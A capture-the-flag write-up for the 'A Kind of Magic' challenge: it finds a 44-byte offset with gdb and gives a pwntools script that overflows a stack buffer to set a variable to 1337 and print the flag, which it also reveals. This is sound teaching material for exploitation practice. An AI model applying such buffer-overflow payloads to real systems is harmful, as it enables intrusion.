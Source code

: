 # A Kind of Magic

by ZeroDayTea

You're a magic man aren't you? Well can you show me? nc 143.198.184.186 5000

## Challenge

In this challenge we were given an ELF-64bit named `akindofmagic` with no canary, NX enabled, and PIE is also enabled.

```
$ file akindofmagic; checksec akindofmagic 
akindofmagic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2529d1bf8b4d4717af0728e24730b6a407050d9, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/akindofmagic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's try to run it

```
$ ./akindofmagic                          
Is this a kind of magic? What is your magic?: 
chicken nugget
You entered chicken nugget

Your magic is: 0
You need to challenge the doors of time
```

It seems that the program will print our input and there is `Your magic is: 0` which obviously kinda odd. Let's open the program using ida to see what the source code looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v7; // [rsp-38h] [rbp-38h]
  unsigned int v8; // [rsp-Ch] [rbp-Ch]
  __int64 v9; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v9 = v3;
  v8 = 0;
  sub_1090("Is this a kind of magic? What is your magic?: ", argv, envp);
  sub_10D0(_bss_start);
  sub_10C0(&v7, 64LL, stdin);
  sub_10B0("You entered %s\n", &v7);
  v4 = v8;
  sub_10B0("Your magic is: %d\n", v8);
  sub_10D0(_bss_start);
  if ( v8 == 1337 )
  {
    sub_1090("Whoa we got a magic man here!", v4, v5);
    sub_10D0(_bss_start);
    sub_10A0("cat flag.txt");
  }
  else
  {
    sub_1090("You need to challenge the doors of time", v4, v5);
    sub_10D0(_bss_start);
  }
  return 0;
}
```

From the main function, it seems that we need to overflow the input and change the `v8` variable. Since the program will also print the value inside the `v8` variable, we could check if our overflow is reaching v8 or not.

First, we could use gdb to create a pattern.
```
$ gdb -q ./akindofmagic
Reading symbols from ./akindofmagic...
(No debugging symbols found in ./akindofmagic)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/akindofmagic 
Is this a kind of magic? What is your magic?: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
You entered AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AA
Your magic is: 1094796865
You need to challenge the doors of time

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the `v8` variable.
```
gdb-peda$ pattern offset 1094796865
1094796865 found at offset: 44
```

Nice, we got the offset/padding. Now we need to make the `v8` variable turns into 1337 in integer or 0x539 in hexadecimal.
```python
from pwn import *

padding = 44 # offset from the input to variable v8
hexNum = 0x539 # the value that we need to overwrite to v8

host = "143.198.184.186"
port = 5000

s = connect(host, port)

# receiving the first line of the program output
print(s.recvline())

# generating the payload
payload = b""
payload += b"A"*padding
payload += p64(hexNum)

# send the payload to the program
s.sendline(payload)

# receiving the rest of the program output
print(s.recvall())

s.close()
```

Now all we need to do is just run the program
![](akindofmagic.png)

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
